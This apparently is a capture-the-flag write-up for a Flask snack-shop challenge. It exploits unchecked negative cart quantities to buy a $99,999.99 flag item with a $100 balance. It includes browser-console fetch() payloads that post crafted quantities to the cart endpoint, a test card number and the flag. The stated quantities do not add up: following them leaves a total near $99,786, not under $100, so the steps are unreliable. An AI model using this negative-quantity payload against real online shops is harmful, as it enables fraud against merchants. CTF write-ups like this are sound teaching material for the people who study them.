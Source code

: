 

##  Description
The website is a fake online snack shop built using Flask. One product called **"Elite Hacker Snack"** costs `$99999.99` and reveals the **flag** on successful purchase. But you're only given **$100.00**.

##  Objective
Buy the **Elite Hacker Snack** and retrieve the flag using logic flaws in the cart system — no cookie tampering or source code access required.

##  Key Observations
- Flask app uses server-side SQLite with in-memory DB.
- Checkout logic includes:
  - Check if user balance ≥ cart total
  - Check if **total > 0**
  - Check if order contains `"Elite Hacker Snack"` → reveal flag
- No client-side restrictions on **negative quantities**!

## Exploit Steps
1. **Add -2 Elite Hacker Snacks** to get negative cart total (~ -$199,999.98).
2. **Add thousands of positive-priced items** like Stealth Cookies ($4.20 each).
3. Fine-tune quantities to bring total to ~ $50.
4. **Add 1 more Elite Hacker Snack** to satisfy the flag condition.
5. Proceed to `/checkout`, enter dummy card info, and get the flag.

##  Exploit Payload (DevTools Console)
```
fetch("/cart/add", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "product_id=6&quantity=-2"
});

fetch("/cart/add", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "product_id=1&quantity=47568"
});

fetch("/cart/add", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "product_id=6&quantity=1"
});
```

###  Dummy Payment Info
- Card Number: `4111111111111111`
- Expiry: `03/30`
- CVV: `123`

 You may need to tweak quantity to get total **under $100 but > $0**.

##  Result
Once checkout is complete and `"Elite Hacker Snack"` is in the order, you'll see:

```
cube{happy birthday!:flag_us::flag_us::flag_us::flag_us::flag_us:_c65ece2a}```

---
